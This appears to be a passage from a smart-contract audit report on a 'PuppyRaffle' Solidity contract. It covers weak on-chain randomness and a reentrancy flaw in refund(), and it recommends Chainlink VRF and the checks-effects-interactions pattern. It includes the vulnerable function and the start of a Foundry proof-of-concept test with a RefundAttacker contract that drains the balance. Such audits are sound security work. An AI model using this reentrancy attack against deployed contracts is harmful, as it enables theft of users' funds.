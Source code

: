 ### Description:

Weak PRNG due to a modulo on block.timestamp, now or blockhash. These can be influenced by miners to some extent so they should be avoided.
Eve is a miner. Eve calls guessing and re-orders the block containing the transaction. As a result, Eve wins the game.

### Impact: High

### Recommended Mitigation:

Do not use block.timestamp, now or blockhash as a source of randomness, may use the chainlink VRF to instead.

## H-2 `PuppyRaffle::refund()` maybe attacked by reentrancy attack, that will lose the contract balance.

### Description:

The `PuppyRaffle::refund()` is not follow CEI(check - effect - interact) pattern, enables the participants to drain the balance of the contract.

```javascript
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

@>      payable(msg.sender).sendValue(entranceFee);

@>      players[playerIndex] = address(0);
        emit RaffleRefunded(playerAddress);
    }
```

A participant who has entered the raffle could have a `fallback`or`receive` function that calls `PuppyRaffle::refund()` again and claim other refund. They could continue to cycle this until the contract balance is drained.

### Impact:

All fees paid by raffle entrants could be stolen by the malicious participant.

### Proof of Concept:

```javascript
......
    function test_refundAttack() public {
        RefundAttacker refundAttacker = new RefundAttacker(puppyRaffle);
        vm.deal(address(refundAttacker), entranceFee);
        uint256 startingContractBalance = address(puppyRaffle).balance;
        uint256 startingAttackerBalance = address(refundAttacker).balance;
        refundAttacker.attack();
        uint256 endingContractBalance = address(puppyRaffle).balance;
        uint256 endingAttackerBalance = address(refundAttacker).balance;
        console.log("Ending Contract Balance", endingContractBalance);
        console.log("Ending Attacker Balance", endingAttackerBalance);
        assertEq(endingAttackerBalance, startingAttackerBalance + startingContractBalance);
        assertEq(address(puppyRaffle).balance, 0);
    }
}

contract RefundAttacker {
    PuppyRaffle puppyRaffle;
```